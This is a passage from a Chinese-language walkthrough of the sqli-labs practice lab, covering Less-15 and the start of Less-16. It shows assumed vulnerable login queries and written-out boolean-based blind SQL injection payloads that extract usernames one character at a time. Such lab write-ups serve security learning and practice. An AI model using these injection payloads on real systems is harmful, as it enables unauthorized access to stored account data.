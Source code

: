 ```sql
...
# 正确
uname="and+1=if(substr((select+group_concat(username)+from+users),2,1)='u',1,0)--+&passwd=&submit=Submit
```

## Less-15 基于布尔值的字符串

+ 首先找出注入点。这里我们尝试在文本框中添加单引号。
+ 返回失败的图片。我们再尝试在单引号后面加上`or1=1`然后发现返回成功的图片，我们就可以猜一下该SQL语句。

```sql
select column1, column2 from users where username = '$username' and password = '$password' limit 0, 1;
```

+ 使用下列方法

```sql
# 查询第一位数据
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),1,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),1,1)='b',1,0)--+&passwd=&submit=Submit
...
# 正确
uname='and+1=if(substr((select+group_concat(username)+from+users),1,1)='d',1,0)--+&passwd=&submit=Submit

# 查询第二位数据
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),2,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),2,1)='b',1,0)--+&passwd=&submit=Submit
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),2,1)='c',1,0)--+&passwd=&submit=Submit
...
# 正确
uname='and+1=if(substr((select+group_concat(username)+from+users),2,1)='u',1,0)--+&passwd=&submit=Submit
```

## Less-16 基于盲时间的双引号字符串

+ 根据题目提示我们可以假设该SQL语句为：

```sql
select column1, column2 from users where username = "$username" and password = "$password";
```
